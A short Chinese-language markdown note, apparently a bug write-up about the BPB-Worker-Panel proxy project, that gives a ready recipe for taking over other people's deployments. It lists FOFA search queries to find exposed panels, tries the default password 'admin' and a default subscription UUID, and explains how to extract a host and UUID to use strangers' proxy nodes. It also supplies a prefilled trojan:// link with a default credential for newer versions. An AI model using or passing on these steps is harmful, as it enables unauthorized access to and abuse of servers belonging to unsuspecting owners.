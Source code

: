 ## 仓库地址
https://github.com/bia-pain-bache/BPB-Worker-Panel

## bug
相关 issue: https://github.com/bia-pain-bache/BPB-Worker-Panel/issues/187  
作者认为不会泄漏个人信息，已关闭 issue

### bug 复现
#### 面板默认密码或者默认UUID
https://fofa.info/ 网络测绘网站
搜索
```text
443 端口
icon_hash="-1354027319" && asn="13335" && port="443"
或者 80 端口
icon_hash="-1354027319" && asn="13335" && port="80"
```
尝试访问 /login ，使用弱口令 admin
或者访问 默认订阅 /sub/89b3cbba-e6ac-485a-9481-976a0415eab9

如果成功，提取节点 host 和 uuid

将host和uuid填入订阅器对应的值，https://VLESS.cmliussss.net/sub?host=[BPB的host]&uuid=[BPB的uuid]

参考：https://blog.cmliussss.com/p/BPBbug/

#### 2.5.3版本以上
```text
trojan://bpb-trojan@www.vpslook.com:443?security=tls&sni=这里填域名&alpn=h3&fp=randomized&allowlnsecure=1&type=ws&host=这里填域名&path=%2Ftr%3Fed%3D2560#BPB
```
版本是 2.5.3以上，复制链接到 v2ray 客户端，替换需要填写的域名

参考：https://www.freedidi.com/17131.html
